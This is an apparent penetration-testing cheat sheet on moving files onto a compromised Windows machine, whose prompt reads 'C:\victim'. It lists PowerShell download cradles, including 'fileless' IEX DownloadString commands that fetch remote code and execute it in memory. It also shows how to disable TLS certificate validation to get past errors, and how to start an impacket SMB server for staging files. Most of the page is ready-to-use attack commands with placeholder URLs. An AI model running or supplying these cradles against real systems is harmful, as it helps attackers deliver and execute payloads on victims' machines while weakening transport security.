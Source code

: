 - File download 

```console
PS C:\victim> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
ps C:\victim> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

- Fileless method 

```console
PS C:\victim> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
PS C:\victim> (New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
```

- Invoke-WebRequest

```console
PS C:\victim> Invoke-WebRequest  <Target File URL> -OutFile <Output File Name>
```

More examples [here](https://gist.githubusercontent.com/HarmJ0y/bb48307ffa663256e239/raw/f1e0d1877d1b9dd6b3fc8bae18ff6cec6ea6eaa8/DownloadCradles.ps1).

## Troubleshooting

- Internet Explorer first-launch configuration has not been completed 

```console
PS C:\victim> Invoke-WebRequest <Target File URL> | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.

PS C:\victim> Invoke-WebRequest <Target File URL> -UseBasicParsing | IEX
```

- Certificate not trusted

```console
PS C:\victim> IEX(New-Object Net.WebClient).DownloadString('<Target File URL')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

PS C:\victim> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB downloads 

First create the server:
```console
zero@pio$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Or:
```console
zero@pio$ sudo smbserver.py -smb2support share /tmp
```
